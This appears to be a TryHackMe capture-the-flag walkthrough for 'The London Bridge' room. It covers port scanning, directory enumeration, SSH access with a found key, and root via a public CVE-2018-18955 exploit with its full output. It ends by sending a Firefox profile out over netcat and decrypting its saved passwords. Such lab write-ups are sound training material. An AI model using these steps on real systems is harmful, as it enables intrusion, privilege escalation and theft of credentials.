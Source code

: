 Hi, here is how to successfully complete the machine https://tryhackme.com/r/room/thelondonbridge

I start by checking if the machine is available by doing a ping -c 1
<pre><code>> ping -c 1 10.10.3.253
PING 10.10.3.253 (10.10.3.253) 56(84) bytes of data.
64 bytes from 10.10.3.253: icmp_seq=1 ttl=63 time=244 ms

--- 10.10.3.253 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 243.675/243.675/243.675/0.000 ms</code></pre>

after verifying that the machine is available I start by doing a quick scan of the ports.
<pre><code>> sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.3.253 | tee nmap1.txt
[sudo] contraseña para maxi: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2024-10-03 11:25 -03
Initiating SYN Stealth Scan at 11:25
Scanning 10.10.3.253 [65535 ports]
Discovered open port 22/tcp on 10.10.3.253
Discovered open port 8080/tcp on 10.10.3.253
Completed SYN Stealth Scan at 11:26, 26.58s elapsed (65535 total ports)
Nmap scan report for 10.10.3.253
Host is up, received user-set (0.69s latency).
Scanned at 2024-10-03 11:25:42 -03 for 26s
Not shown: 54951 filtered tcp ports (no-response), 10582 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
8080/tcp open  http-proxy syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 26.72 seconds
           Raw packets sent: 127155 (5.595MB) | Rcvd: 10641 (425.656KB)</code></pre>

Once I identify which ports are available, I perform a more detailed scan on those ports
<pre><code>> sudo nmap -p22,8080 -sCV -Pn 10.10.3.253 | tee nmap2.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2024-10-03 11:26 -03
Nmap scan report for 10.10.3.253
Host is up (0.39s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:c1:e4:79:ca:70:bc:3b:8d:b8:22:17:2f:62:1a:34 (RSA)
|   256 2a:b4:1f:2c:72:35:7a:c3:7a:5c:7d:47:d6:d0:73:c8 (ECDSA)
|_  256 1c:7e:d2:c9:dd:c2:e4:ac:11:7e:45:6a:2f:44:af:0f (ED25519)
8080/tcp open  http    Gunicorn
|_http-server-header: gunicorn
|_http-title: Explore London
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.46 seconds</code></pre>


![2024-10-03_11-28](https://github.com/user-attachments/assets/1e5abef6-fd72-46c9-af2a-cb5c5d6b4e82)

<pre><code>> gobuster dir -u http://10.10.3.253:8080/ -w /home/maxi/Escritorio/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 | tee gobuster.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.3.253:8080/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /home/maxi/Escritorio/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/contact              (Status: 200) [Size: 1703]
/feedback             (Status: 405) [Size: 178]
/gallery              (Status: 200) [Size: 1722]
/upload               (Status: 405) [Size: 178]
/dejaview             (Status: 200) [Size: 823]</code></pre>

![2024-10-03_12-05](https://github.com/user-attachments/assets/4e0164e9-c7cf-477f-a135-f65246ab4032)


![2024-10-03_13-43](https://github.com/user-attachments/assets/0d3f160f-abb8-41ba-8095-dd27620b40d7)

![2024-10-03_13-45](https://github.com/user-attachments/assets/8e032f11-a555-4c33-8e08-0af46e4fcb38)


<pre><code>> chmod 600 id_rsa
> ssh -i id_rsa beth@10.10.3.253
^C⏎                                                                                                                 maxi@maxi-notebook ~/C/T/t/content [SIGINT]> ssh -i id_rsa beth@10.10.52.222
The authenticity of host '10.10.52.222 (10.10.52.222)' can't be established.
ED25519 key fingerprint is SHA256:ytPniu9JUHpepgFs9WjrDo4KrlD74N5VR4L5MCCx3D8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.52.222' (ED25519) to the list of known hosts.
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
Last login: Mon May 13 22:38:30 2024 from 192.168.62.137
beth@london:~$ 
</code></pre>

<pre><code>beth@london:/home$ find / -type f -name 'user.txt' 2>/dev/null                                                      
/home/beth/__pycache__/user.txt</code></pre>

<pre><code>beth@london:~/__pycache__$ uname -a
Linux london 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux</code></pre>

https://github.com/scheatkode/CVE-2018-18955
exploit.dbus.sh
php-reverse-shell.php
rootshell.c
subshell.c
subuid_shell.c
<pre><code>beth@london:~$ bash exploit.dbus.sh 
[*] Compiling...
[*] Creating /usr/share/dbus-1/system-services/org.subuid.Service.service...
[.] starting
[.] setting up namespace
[~] done, namespace sandbox set up
[.] mapping subordinate ids
[.] subuid: 100000
[.] subgid: 100000
[~] done, mapped subordinate ids
[.] executing subshell
[*] Creating /etc/dbus-1/system.d/org.subuid.Service.conf...
[.] starting
[.] setting up namespace
[~] done, namespace sandbox set up
[.] mapping subordinate ids
[.] subuid: 100000
[.] subgid: 100000
[~] done, mapped subordinate ids
[.] executing subshell
[*] Launching dbus service...
Error org.freedesktop.DBus.Error.NoReply: Did not receive a reply. Possible causes include: the remote application did not send a reply, the message bus security policy blocked the reply, the reply timeout expired, or the network connection was broken.
[+] Success:
-rwsrwxr-x 1 root root 8392 Oct  3 10:08 /tmp/sh
[*] Cleaning up...
[*] Launching root shell: /tmp/sh
root@london:~# </code></pre>

<pre><code>root@london:/root# ls -la
total 52
drwx------  6 root root 4096 Apr 23 22:10 .
drwxr-xr-x 23 root root 4096 Apr  7 01:10 ..
lrwxrwxrwx  1 root root    9 Sep 18  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  3 root root 4096 Apr 23 22:08 .cache
-rw-r--r--  1 beth beth 2246 Mar 16  2024 flag.py
-rw-r--r--  1 beth beth 2481 Mar 16  2024 flag.pyc
drwx------  3 root root 4096 Apr 23 22:08 .gnupg
drwxr-xr-x  3 root root 4096 Sep 16  2023 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwxr-xr-x  2 root root 4096 Mar 16  2024 __pycache__
-rw-rw-r--  1 root root   27 Sep 18  2023 .root.txt
-rw-r--r--  1 root root   66 Mar 10  2024 .selected_editor
-rw-r--r--  1 beth beth  175 Mar 16  2024 test.py
root@london:/root# cat .root.txt
THM{???}</code></pre>

<pre><code>root@london:/home/charles/.mozilla# tar -cvzf /tmp/firefox.tar.gz firefox </code></pre>


<pre><code>nc {ip} 1234 < /tmp/firefox.tar.gz</code></pre>

<pre><code>~> tar -xvzf firefox.tar.gz</code></pre>

<pre><code>sudo chmod -R 777 firefox</code></pre>

<pre><code>python3 firefox_decrypt.py firefox/8k3bf3zp.charles/
2024-10-03 16:27:03,316 - WARNING - profile.ini not found in firefox/8k3bf3zp.charles/
2024-10-03 16:27:03,318 - WARNING - Continuing and assuming 'firefox/8k3bf3zp.charles/' is a profile location

Website:   https://www.buckinghampalace.com
Username: 'Charles'
Password: '?????'</code></pre>
